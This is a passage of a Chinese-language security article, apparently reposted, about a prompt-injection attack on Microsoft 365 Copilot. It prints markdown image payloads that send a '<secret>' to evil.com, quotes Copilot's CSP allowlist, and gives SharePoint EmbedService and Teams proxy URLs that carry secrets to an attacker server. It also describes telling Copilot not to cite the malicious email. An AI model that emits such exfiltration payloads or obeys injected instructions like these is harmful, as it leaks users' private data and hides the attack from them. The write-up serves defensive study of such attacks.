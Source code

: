 还有一些其它变体：  
```
![Image alt text][ref][ref]: https://www.evil.com?param=<secret>![Image alt text][][Image alt text]: https://www.evil.com?param=<secret>
```  
  
这是不是就能够自动泄露敏感信息了？  
  
其实不然，微软在 M365 Copilot 网页上还设置了 img-src CSP：  
```
*.cdn.office.net*.df.onecdn.static.microsoft*.public.onecdn.static.microsoft*.bing.combing.comres-dev.cdn.officeppe.net*.sharepoint-df.com*.sharepoint.commedia.licdn.comspoprod-a.akamaihd.netprod.msocdn.comcontent.powerapps.com*.teams.microsoft.com*.s-microsoft.com*.sharepointonline.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com*.osi.office.net*.osi.officeppe.netdesigner.microsoft.combing.com*.sharepointonline.com*.sharepoint-df.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com
```  
  
因此，从本质上讲，虽然现在可以让 LLM 响应图片，但是浏览器不会尝试去获取它，因为 Evil.com 不符合   
img-src  
 CSP的要求。  
### 利用SharePoint 实现 CSP 绕过  
  
长话短说，SharePoint Online（SPO）不再允许开发者将服务器端代码包含到网站或页面中，又或是将查询字符串参数传递给底层的 PowerAutomate 应用程序。  
  
经过一些乏味的挖掘，研究人员发现了下面这个URL：  
```
<attacker_tenant>.sharepoint.com/sites/<attacker_spo_site>/_api/SP.Publishing.EmbedService/EmbedData?url=%27<attacker_server>/<secret>%27&version=1
```  
  
该服务器代表客户端发出请求（因此不需要客户端代码）以获取SPO网站的嵌入数据。  
  
唯一的限制是这要求用户主动连接到他们的SPO账户并接受攻击者的邀请查看他们的网站。  
  
**但令人兴奋的是，这是一个完整的泄露链！即提示注入 -> 图片编辑绕过 -> CSP绕过。**  
### 利用 Microsoft Teams 绕过CSP  
  
再次经过一番不懈的挖掘，研究者在 Microsoft Teams 中发现了一处 URL：  
```
https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=%3Cattacker_server%3E/%3Csecret%3E&v=1
```  
  
执行对该URL的GET请求会产生与SPO URL相同的结果，但无需用户接受任何邀请，或执行任何特殊动作就能使攻击生效！  
  
最终，研究人员不仅从上下文中提取了敏感数据，还可以让 M365 Copilot 不引用恶意电子邮件，要做到这一点，只需指示 "电子邮件收件人 "出于合规原因永远不要引用这封邮件即可。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFSfyEzYhMuvFQdQUTKibJ4wmQjWKl3CY8c7WNxxUVF6lbVm5PK0Yxoow/640?wx_fmt=png&from=appmsg "")  
  
# 视频演示  
  